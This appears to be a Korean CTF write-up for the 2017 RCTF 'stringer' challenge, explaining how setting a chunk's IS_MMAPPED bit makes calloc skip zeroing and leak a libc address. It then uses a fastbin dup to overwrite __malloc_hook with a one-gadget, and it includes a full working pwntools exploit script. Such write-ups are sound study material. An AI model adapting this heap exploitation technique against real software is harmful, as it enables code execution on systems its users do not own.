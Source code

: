 ```yaml
---
title: "2017 RCTF stringer"
date: 2020-3-2
ctf: RCTF
layout: post
---
```


* calloc trick

show 메뉴가 존재했지만 기능은 없었다. 하지만 new할 때 넣은 content를 출력해준다. 하지만 할당할 때 calloc을 사용해서 할당한다는 점이다. calloc을 사용하게 되면 메모리 영역이 다 초기화 된다는 점이다.

 unsorted bin을 만들고 edit을 이용해서 다음청크의 사이즈 1을 증가시킬 수 있어서 IS_MMAPED를 set해주면 메모리를 초기화 하지 않는다는 점이다. calloc.c 코드에서 볼 수있다.

```c
if (chunk_is_mmapped (p))
  {
    if (__builtin_expect (perturb_byte, 0))
      return memset (mem, 0, sz);

    return mem;
  }
```

 그래서 이를 이용해서 같은 크기로 재할당해서 main_arena+88 주소를 leak할 수 있다. 이후에는 fastbin dup해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stringer')
p = process('./stringer')
libc = e.libc
chunk = 0x0000000000202040

def new(size,content):
	p.sendlineafter(':','1')
	p.sendlineafter(':',str(size))
	p.sendlineafter(':',content)

def edit(idx,idx2):
	p.sendlineafter(':','3')
	p.sendlineafter(':',str(idx))
	p.sendlineafter(':',str(idx2))

def delete(idx):
	p.sendlineafter(':','4')
	p.sendlineafter(':',str(idx))

new(24,'A'*8) # 0 
new(0x100,'B'*8) # 1
new(0x100,'C'*8) # 2
delete(1)
edit(0,24) # set is_mmap
new(0x100,'B'*7) # 1 leak

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - (0x3c4b20 + 88)
log.info('libc_base : {}'.format(hex(libc_base)))
malloc = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc)))
oneshot = libc_base + 0xf02a4
log.info('oneshot : {}'.format(hex(oneshot)))

new(0x60,'a') # 3
new(0x60,'a') # 4
new(0x60,'a') # 5

delete(4)
delete(5)
delete(4)

new(0x60,p64(malloc-0x23))
new(0x60,'b')
new(0x60,'b')
new(0x60,'A'*19+p64(oneshot))

new(0x60,'finish')

p.interactive()
```

# Reference

https://0xpwny.com/2019/03/14/bypass-calloc-zeroing-memory/

https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c#L89

https://github.com/andigena/ptmalloc-fanzine/tree/master/03-scraps

